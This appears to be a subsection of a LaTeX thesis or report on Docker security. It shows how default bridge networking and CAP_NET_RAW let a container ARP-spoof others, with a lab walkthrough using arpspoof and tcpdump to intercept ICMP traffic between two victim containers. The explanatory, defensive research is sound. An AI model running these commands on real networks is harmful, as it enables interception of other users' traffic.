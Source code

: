 \subsection{ARP Spoofing}\label{subsection:arp-spoofing}
By default, all Docker containers are added to the same bridge network. This means they are able to reach each other. By default, Docker containers also receive the \lstinline{CAP_NET_RAW} capability, which allows them to create raw packets. This means that by default, containers are able to ARP spoof other containers\footnote{IPv4 forwarding is enabled by default by Docker}\cite{Abusing-Containers}.

\medskip

Let's take a look at a practical example. Let's say we have three containers. One container will ping another container. A third malicious container wants to intercept the \lstinline{ICMP} packets.

We start three Docker containers using the \lstinline{ubuntu:latest} image (which is the same as \lstinline{ubunut:bionic-20191029} at the time of writing). They have the following, names IPv4 addresses and MAC addresses:
\begin{itemize}
    \item \lstinline{victim0}: \lstinline{172.17.0.2} and \lstinline{02:42:ac:11:00:02}
    \item \lstinline{victim1}: \lstinline{172.17.0.3} and \lstinline{02:42:ac:11:00:03}
    \item \lstinline{attacker}: \lstinline{172.17.0.4} and \lstinline{02:42:ac:11:00:04}
\end{itemize}

We use \lstinline{vic0}, \lstinline{vic1} and \lstinline{atck} instead of \lstinline{cont} to indicate in which container a command is executed.

\begin{lstlisting}[caption={Docker container ARP spoof},captionpos=b]
(host)$ docker run --rm -it --name=victim0 -h victim0 ubuntu:latest /bin/bash
(vic0)# apt update
...
(vic0)# apt install net-tools iproute2 iputils-ping
...
(host)$ docker run --rm -it --name=victim1 -h victim1 ubuntu:latest /bin/bash
(host)$ docker run --rm -it --name=attacker -h attacker ubuntu:latest /bin/bash
(atck)# apt update
...
(atck)# apt install dsniff net-tools iproute2 tcpdump
...
(atck)# arpspoof -i eth0 -t 172.17.0.2 172.17.0.3
...
(vic0)# arp
arp
172.17.0.3 ether 02:42:ac:11:00:04 C eth0
...
172.17.0.4 ether 02:42:ac:11:00:04 C eth0
(vic0)# ping 172.17.0.3
...
(atck)# tcpdump -vni eth0 icmp
...
10:16:18.368351 IP (tos 0x0, ttl 63, id 52174, offset 0, flags [DF], proto ICMP (1), length 84)
    172.17.0.2 > 172.17.0.3: ICMP echo request, id 898, seq 5, length 64
10:16:18.368415 IP (tos 0x0, ttl 64, id 8188, offset 0, flags [none], proto ICMP (1), length 84)
    172.17.0.3 > 172.17.0.2: ICMP echo reply, id 898, seq 5, length 64
...
\end{lstlisting}

